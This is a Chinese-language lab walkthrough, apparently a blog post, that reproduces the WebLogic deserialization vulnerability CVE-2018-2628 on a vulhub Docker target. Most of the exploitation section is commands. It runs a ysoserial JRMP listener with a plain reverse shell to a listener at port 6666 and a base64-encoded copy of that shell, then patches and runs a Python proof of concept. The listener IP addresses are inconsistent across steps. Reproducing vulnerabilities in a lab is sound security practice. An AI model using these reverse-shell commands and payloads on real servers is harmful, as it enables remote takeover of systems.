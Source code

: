 ```yaml
---
title: Weblogic反序列化漏洞（cve-2018-2628 ）
date: 2022-1-12 23:02:53
updated: 2022-1-12 23:02:53
categories: 漏洞复现
tags:
urlname:
keywords: 漏洞，weblogic,cve-2018-2628 
---
```


### Weblogic反序列化漏洞（cve-2018-2628 ）

#### 环境搭建

靶机：CentOS7（192.168.2.110:7001）

监听机器：Win10:（192.168.2.105:6666）

将环境vulhub的环境git到本地

```bash
git clone https://github.com/vulhub/vulhub.git
```

接着 cd [weblogic](https://so.csdn.net/so/search?q=weblogic)/CVE-2018-2628

```bash 
docker-compose up -d
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112094727.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112094931.png)

至此环境搭建完毕

<br>

#### 漏洞利用

工具包下载：

[mirrors / Lighird / CVE-2018-2628 · GIT CODE](https://gitcode.net/mirrors/Lighird/CVE-2018-2628?utm_source=csdn_github_accelerator)

打开检测工具：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112095150.png)

修改url.txt文件中的IP：PORT

然后运行该文件夹中的py脚本（运行环境为pyhon2）

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112095537.png)

证明漏洞存在

<br>

接下来开始利用：

启动JRMP Server

```bash
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener [listen port] Jdk7u21 [command]
```

[command] : 需要执行的命令
[listen port] : JRMP Server监听的端口

```bash
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 8888 Jdk7u21 'bash -i >& /dev/tcp/192.168.0.105/6666 0>&1'
```



由于 Runtime.getRuntime().exec() 中不能使用管道符等bash需要的方法，我们需要进行一次编码。

转化工具链接 : http://www.jackson-t.ca/runtime-exec-payloads.html

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112095900.png)

编码后的命令如下

```bash
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 8888 Jdk7u21 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}'
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112100400.png)

出现如上界面说明JRMP Server正在监听8888端口

执行

```bash
java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient2 192.168.2.106:8888 | xxd -p | tr -d $'\n' && echo
```

复制结果

将weblogic_poc.py 中的 PYLOAD进行替换，并修改目标ip

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112105419.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112105434.png)

监听机器上开机监听端口：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220112105449.png)

执行

```
python weblogic_poc.py
```

